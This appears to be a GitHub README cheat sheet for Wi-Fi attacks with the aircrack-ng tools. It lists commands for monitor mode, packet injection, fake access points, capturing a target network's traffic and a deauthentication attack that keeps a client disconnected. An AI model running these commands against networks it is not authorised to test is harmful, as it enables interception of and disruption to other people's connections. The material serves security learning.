 # <p style="text-align:center">Ethical Hacking Cheat Sheet </p>
---
<details>
    <summary> Basic Information</summary>
These commands are works only on linux based OS system
An external Network Adapter is required, Your Network Adapter must support
<font color="green">Monitor Mode, packet injection mode</font> Here my network interface name is <font color="green">wlan1</font>, use these commands

```sh
iwconfig 
```
 or 
 ```
 ifconfig
 ```
check your network interface name, your network interface name may be diffrent use accordingly.

First you need to switch root user

```
sudo su
```
</details>

# Table of Content
- [Network Manager Commands](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#network-manager-commands)
- [Network Adapter testing commands](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#network-adapter-testing-commands)
- [Packet Sniffing](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#packet-sniffing)
- [DE-Authentication Attack](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#de-authentication-attack)

---
## Network Manager Commands
### kill network manager
```
airmon-ng check kill
```
### Enable Network Manager
```
service NetworkManager start
```
### Restart Network Manager
```
systemctl restart NetworkManager
```
### Check Status of Network Manager
```
systemctl status NetworkManager
```
---
## Network Adapter Testing Commands
### Enable Monitor Mode
```
airmon-ng start wlan1
```
### Disable Monitor Mode
```
airmon-ng stop wlan1
```
### Packet Injection test
```
aireplay-ng --test wlan1
```
### Creating Access Point Test
you can put any fake MAC Address like this `00:01:02:03:04:05`
```
airbase-ng -a 00:01:02:03:04:05 --essid "test_01" -c 11 wlan1
```
---
## Packet Sniffing
### sniff network around us `2.4 GHz`
```
airodump-ng wlan1
```
### sniff network Both `2.4 GHz and 5 GHz`
```
airodump-ng --band a wlan1
```
### capture data both `2.4 GHz and 5 GHz`
```
airodump-ng --band abg wlan1
```
### capture data in a file `test`
```
airodump-ng --bssid @1 --channel @2 --write test wlan1
```
@1 → `BSSID` of target

@2 → Channel no. of target

### open wireshark application to read captured data, captured in `fileName.cap`, 
```
wireshark
```
---
## DE-Authentication Attack
```
aireplay-ng --deauth @1 -a @2 -c @3 wlan1
```
@1 → no. of packets you want to send 

@2 → BSSID of router

@3 → MAC Address of the Client
<details>
    <summary>know more abot it</summary>
we're doing --deauth to tell
aireplay-ng that I want to run a de-authentication attack,
I'm givin' it a really large number of packets, so that it
keeps sending the de-authentication packets
to both the router and the client, and keep the client
disconnected, I'm using -a to specify the MAC address of the
target router, or the target access point, then I'm using -c
to specify the MAC address of the client.
</details>
&nbsp;

if it`s fails then, ot target specific router
```
airodump-ng --bssid @1 --channel @2 wlan1
```
@1 → BSSID of target

@2 → Channel number